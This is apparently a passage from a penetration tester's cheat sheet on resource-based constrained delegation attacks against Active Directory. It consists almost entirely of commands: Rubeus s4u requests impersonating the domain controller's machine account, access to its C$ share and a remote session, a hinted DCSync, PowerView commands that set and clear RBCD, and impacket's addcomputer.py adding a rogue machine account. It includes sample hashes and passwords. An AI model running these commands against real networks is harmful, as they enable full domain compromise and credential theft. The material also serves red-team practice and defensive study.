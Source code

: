 Ask TGS for CIFT and HTTP:

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine1337 /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:CIFS/DC01.megacorp.local /altservice:HTTP /ptt
PS > klist
PS > cd \\DC01.megacorp.local\c$
PS > ls
PS > c:
PS > Enter-PSSession -ComputerName DC01.megacorp.local
PS > exit
```

Ask TGS for LDAP:

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine1337 /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:LDAP/DC01.megacorp.local /ptt
PS > klist
PS > ...DCSync...
```

Cleanup:

```
PowerView3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose -Credential $cred
```

##### PowerView 4.0

Configure RBCD on the vulnerable host (DC01):

```
PowerView4 > Set-DomainRBCD DC01 -DelegateFrom fakemachine1337 -Verbose
```

Cleanup:

```
PowerView4 > Set-DomainRBCD DC01 -Clear -Verbose
```


#### RBCD from Linux

Add new machine account:

```
$ addcomputer.py -computer-name 'fakemachine1337' -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC02.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
```

Configure RBCD on the vulnerable host:

```
...rbcd-attack...
Or
...rbcd_permissions...
```
